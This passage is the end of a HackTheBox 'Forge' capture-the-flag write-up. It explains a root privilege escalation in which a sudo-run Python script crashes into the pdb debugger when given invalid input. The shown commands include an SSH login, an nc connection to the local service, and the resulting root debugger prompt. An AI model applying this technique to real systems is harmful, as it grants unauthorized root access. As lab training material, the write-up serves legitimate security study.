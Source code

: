 ```python
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

We see it's a simple script that when run listens on a random port on localhost. When you connect to it you have a few options to view processes, memory or sockets. It even gives us the password! The key part is the except clause which drops us to the interactive source code debugger called [pdb](https://docs.python.org/3/library/pdb.html). If we trigger an exception we'll be at a Python prompt as root, so from there we can easily finish the box.

Let's run the script as root:

```sh
-bash-5.0$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:49630
```

We see it's waiting for us to connect on port 49630. Let's log in from a second terminal as user via SSH again:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# ssh -i id_rsa user@forge.htb                             
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
Last login: Sun Oct 24 10:10:40 2021 from 10.10.14.192
-bash-5.0$
```

Now we can connect to the script on localhost:

```sh
-bash-5.0$ nc localhost 49630
Enter the secret passsword: <HIDDEN>
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

## Root Flag

You can enter anything other than the four expected numbers. After that the script appears to hang, if you switch to your other terminal you'll see the script has crashed and you're now in the pdb:

```sh
invalid literal for int() with base 10: b'pencerwashere'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb)
```
